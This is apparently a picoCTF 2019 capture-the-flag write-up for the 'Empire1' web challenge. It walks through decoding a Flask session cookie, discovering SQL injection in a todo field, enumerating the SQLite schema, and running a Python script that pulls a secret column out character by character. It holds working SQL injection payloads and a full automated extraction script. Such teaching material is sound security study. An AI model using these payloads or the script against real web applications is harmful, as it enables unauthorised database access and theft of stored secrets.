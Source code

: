 <h3>Challenge #10 Empire1</h3>

<blockquote><i>Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/27357/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:27357</i></blockquote>  

<p>In this challenge we have a site with login and register form.</p>  

<p>First things first I inspected the page to see if there is any hidden login logic in some form of script,which wasn't the case.After creating a user and logging in I've caught one thing.The session cookie looked quite odd: </p>

```javascript
session=.eJwlj0FqQzEMRO_idRayJEt2LvORZYmGQAv_J6vSu8fQWb95zPyWI8-4vsr9db7jVo7HKveCHTAqM7r6cFhdIeoO2-i0eA6UEUnihrMFk5upSGJl9UWQMmf20Rc1arAWmyaw6OC6Teg5g5XSWptrRjRMbyYA5hvZEiq34teZx-vnGd97jxNn776BUWVgtypNOhFNNVimwO48XXbvfcX5f4LK3wdBOT5K.XmPcqA.dDQLm8QVYSADCJMay9b9Rh3dpc0
```

<p>So I had to determine in what framework the server was written. From previous picoCTF's i guessed with Flask. So I've tried decoding the cookie. And I was right since this JSON object was result of it.</p>  

```javascript  
{
    "_fresh": true,
    "_id": "2802e1442c7c9c0d870e11114a983d4b9269ef36ca2b5e43caa766f2147cd30f6bbf898d35350dd4a7f04679418702cfbe473fa55bdbee52fc5a600ac7942143",
    "csrf_token": "c34f88c0ac916928a16568333b7a0da704cc4bc6",
    "user_id": "3"
}  
```  
<p>So we do see that user_id value is 3.</p></br>
<p>Have in mind<quote>Flask, by default, uses the URL-safe signed serializer "itsdangerous" to encode its client-side session cookies. A Flask app uses a secret key to sign the session cookie so that the client can't modify it.</quote><br>  
Which means if we could spoof the secret key we would be able to modify the cookie by swapping the value to 1 which would be admin value , and get the session cookie for admin.</p>  

<p>So I've registered account with some random name and then you can see the multiple pages as a user.You see Employees listing,Add todo ,Your todos.  
Empoyees listing was interesting because it looks like a typical SQL table , 3 columns with fields Employee id, Username, Name.<br> Then in Add Todo we have a input field where we can input some text and that is going into list on the page Your Todos.
<br><br>
First I've tried testing the input simply with providing <b>ASCII alphabet</b> you can either google or just make this one liner in python :</p></br>
<code>"".join(chr(x) for x in range(32,127))</code><br></br>
<p>That instantly crashed and gave me internal server 500 error.</br>After that I tried all upper and lowercase letters from A-Z. Which didn't show any strange behaviour. However when I tried single quotes ' and other math logical operators and some of them crashed again.  
<br>
I've tried simple classic SQL injection for authentication OR 1 '=' 1 which weirdly evaluated to 0. <br>
That was very weird and i had to realize what is being filtered out.</p>  

<p>I've tried doing '+ 12 +' which evaluated into 12.So i've tried simple expression '+ 1 + 2  +' which evaluated into 3. Which was pretty nice.<br> I was getting somewhere with that.</p>   

<p>After that I tried taking it step further and making query so i tried '+ SELECT +' and that crashed. So i realized that those words must be filtered and i wanted to try query inside of parantheses . <br>  
So i've tried '+ (SELECT 1) +' and that evaluated to 1. From that point i determined that i can do <b>queries</b>.</p>  

<p>Next I would have to enumerate what engine of sql is running on so I can focus on injecting payload for that type of SQL. There are various functions for certain type of engine to get the version info. The one that worked was '+ <code>sqlite_version()</code> +' that returned me the 3.22 which confirmed it is SQLite engine. </p> 

<p>Now we have to try to get info of our database , specifically table and columns etc.</p>

<p>There are some interesting methods that could give you information that you are looking for, like:PRAGMA functions, 
sqlite_master as main schema holder.</p> 

<p>So first thing i wanted to know is the name of the table.</p>  
<code> '+ (SELECT hex(name) FROM sqlite_master) +'</code>
</br>
<p>With this you can extract table name by using hex value for name parameter,this resulted in 75736572 which is <b>"user"</b>. <br>Good so far we have name of our table.
<br>
After that i wanted to to extract the name of columns , most likely trying to find something like password or similar column name.</p>  
</br>  
<p>The straight away i tried checking if there is column with name of password or secret by doing :</p>  
</br>
<code>'+(SELECT 1 FROM PRAGMA_TABLE_INFO("user") WHERE name="secret") +'</code></br>  
<p>Which actually returned 1 (password returned 0) and that was pretty positive for knowing that the column with name secret exist which should mean that should be column for user passwords.Now remember the part of the hint <q><i>"Can you first find the secret code they assigned to you?</i></q><br>Let's try that : <br>  
<code> '+(select hex(secret) from user where name="asd") +'</code> </p> 
<br>  
Not surprisingly that returned us 7069636 converted to ASCII (as 7069636)  = "pic" <br>  
Which seems like the part of the flag because we know that flag is starting with picoCTF{...}  
Very interesting..  

But there is one more detail in here.Starting with the question why are we only getting 3 letters, flag is usually longer.<br>  
2 conclusions arrives :  
<li>characters are getting truncuted a-f as hexadecimal digit</li>
<li>number is 32 bit integer truncated</li>

So how do we work around this? Substring for number truncation,we get only 1 digit number at a time that means it is truncated , 2 digit number it's not truncated,only above 8 digit number gets truncated(we got only 7 digits from our secret).  
So we are definitely going to make a script for generating requests and collecting the output digits.  
<br>  
Our request payload should have query like this :<br>
<code>'+ (SELECT hex(substr(secret,0,1))  FROM user where id="3") +'</code>  

<p>The idea is to make request till i reach reach number 0 as an output which would indicate that the value ends there. Once i collect all the hexadecimal digits,the single digits should be compared with (a,b,c,d,e,f) and one of those could give me missing part of the whole flag.</p>

<p>So I've made a <a href="https://github.com/DejanJS/picoCTF-Writeups-2019/blob/master/10.Empire1/script.py">script</a> that will do this for us.</p>

<p>Let's explain what is going on in this script:</p>  

You are going to need some scraping library , I've used Beautiful Soup,since response that we need is being generated inside of the other page and csrf token is binded to input field, so you have to keep session alive.  

```python  

import requests
import json
from bs4 import BeautifulSoup
import string

i = 0
result = []
a_to_f = [w for w in string.ascii_lowercase[:6]]
my_session = requests.Session()
register = my_session.get('https://2019shell1.picoctf.com/problem/27357/login')
soup = BeautifulSoup(register.text,'html.parser')
csrf = soup.find(id="csrf_token").get('value')

login = my_session.post('https://2019shell1.picoctf.com/problem/27357/login',data={'csrf_token':csrf,'username':'e','password':123})
item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
soup2 = BeautifulSoup(item_list.text,'html.parser')
items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]  
```  

After that we have to post our data with our sql injection query and collect results of our response : <br>  
```python  
while True:
  i = i + 1
  my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT hex(substr(secret,{i},1))  FROM user where id='3') +'"})
  item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
  soup2 = BeautifulSoup(item_list.text,'html.parser')
  items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]
  if '0' in items:
    #pop 0
    items.pop()
    result.extend(items)
    break  
```  

At the end we have to go through results and loop over possible values of hexadecimals digits , but the best way is to make post once again by substringing and comparing each letter that we already got other possible letters as hexadecimals that we got(which means if we make something like <code>'+ (SELECT (substr(secret,4,1)='o') FROM user where id='3') </code><br>  ,for example)
Response for correct letter is going to be 1 and 0 for non existent .  
```python  
if len(result) > 0:
    for idx,res in enumerate(result):
        if len(res) == 1 and res != "0":
            result[idx] = {'hex':res,'possible_values':[bytearray.fromhex(res + ch).decode() for ch in a_to_f]}
            for k in result[idx]["possible_values"]:
              print(f"Testing {idx} for {k}...")
              my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT (substr(secret,{idx+1},1)='{k}')  FROM user where id='3') +'"})
              item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
              soup2 = BeautifulSoup(item_list.text,'html.parser')
              item = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')][-1]
              print("ITEM : " ,item)
              if item == '1':
                result[idx] = k
                break
        else:
           result[idx] = bytearray.fromhex(res).decode()


print('FLAG : ',"".join(result))  
```  

And we get the flag : <br>
<code><b>picoCTF{wh00t_it_a_sql_inject9899be1a}</b></code>